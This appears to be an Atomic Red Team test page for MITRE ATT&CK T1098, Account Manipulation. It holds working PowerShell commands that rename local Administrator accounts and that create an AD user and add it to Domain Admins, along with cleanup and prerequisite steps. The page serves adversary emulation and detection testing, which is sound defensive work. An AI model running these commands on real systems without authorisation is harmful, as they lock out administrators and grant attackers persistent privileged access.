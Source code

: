 # T1098 - Account Manipulation
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1098)
<blockquote>Adversaries may manipulate accounts to maintain access to victim systems. Account manipulation may consist of any action that preserves adversary access to a compromised account, such as modifying credentials or permission groups. These actions could also include account activity designed to subvert security policies, such as performing iterative password updates to bypass password duration policies and preserve the life of compromised credentials. In order to create or manipulate accounts, the adversary must already have sufficient permissions on systems or the domain.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Admin Account Manipulate](#atomic-test-1---admin-account-manipulate)

- [Atomic Test #2 - Domain Account and Group Manipulate](#atomic-test-2---domain-account-and-group-manipulate)


<br/>

## Atomic Test #1 - Admin Account Manipulate
Manipulate Admin Account Name

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHaHa_$x$y$z$w

$hostname = (Get-CIMInstance CIM_ComputerSystem).Name

$fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
        Write-Host "Successfully Renamed Administrator Account on" $hostname
        }
    }
```






<br/>
<br/>

## Atomic Test #2 - Domain Account and Group Manipulate
Create a random atr-nnnnnnnn account and add it to a domain group (by default, Domain Admins). 

The quickest way to run it is against a domain controller, using `-Session` of `Invoke-AtomicTest`. Alternatively,
you need to install PS Module ActiveDirectory (in prereqs) and run the script with appropriare AD privileges to 
create the user and alter the group. Automatic installation of the dependency requires an elevated session, 
and is unlikely to work with Powershell Core (untested).

If you consider running this test against a production Active Directory, the good practise is to create a dedicated
service account whose delegation is given onto a dedicated OU for user creation and deletion, as well as delegated
as group manager of the target group.

Example: `Invoke-AtomicTest -Session $session 'T1098' -TestNames "Domain Account and Group Manipulate" -InputArgs @{"group" = "DNSAdmins" }`

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| account_prefix | Prefix string of the random username (by default, atr-). Because the cleanup deletes such account based on
a match `(&(samaccountname=#{account_prefix}-*)(givenName=Test))`, if you are to change it, be careful. | String | atr-|
| group | Name of the group to alter | String | Domain Admins|
| create_args | Additional string appended to New-ADUser call | String | |


#### Attack Commands: Run with `powershell`! 


```powershell
$x = Get-Random -Minimum 2 -Maximum 99
$y = Get-Random -Minimum 2 -Maximum 99
$z = Get-Random -Minimum 2 -Maximum 99
$w = Get-Random -Minimum 2 -Maximum 99

Import-Module ActiveDirectory
$account = "#{account_prefix}-$x$y$z"
New-ADUser -Name $account -GivenName "Test" -DisplayName $account -SamAccountName $account -Surname $account -Enabled:$False #{create_args}
Add-ADGroupMember "#{group}" $account
```

#### Cleanup Commands:
```powershell
Get-ADUser -LDAPFilter "(&(samaccountname=#{account_prefix}-*)(givenName=Test))" | Remove-ADUser -Confirm:$False
```



#### Dependencies:  Run with `powershell`!
##### Description: PS Module ActiveDirectory
##### Check Prereq Commands:
```powershell
Try {
    Import-Module ActiveDirectory -ErrorAction Stop | Out-Null
    exit 0
} 
Catch {
    exit 1
} 
```
##### Get Prereq Commands:
```powershell
if((Get-CimInstance -ClassName Win32_OperatingSystem).ProductType -eq 1) {
  Add-WindowsCapability -Name (Get-WindowsCapability -Name RSAT.ActiveDirectory.DS* -Online).Name -Online
} else {
  Install-WindowsFeature RSAT-AD-PowerShell
}
```




<br/>
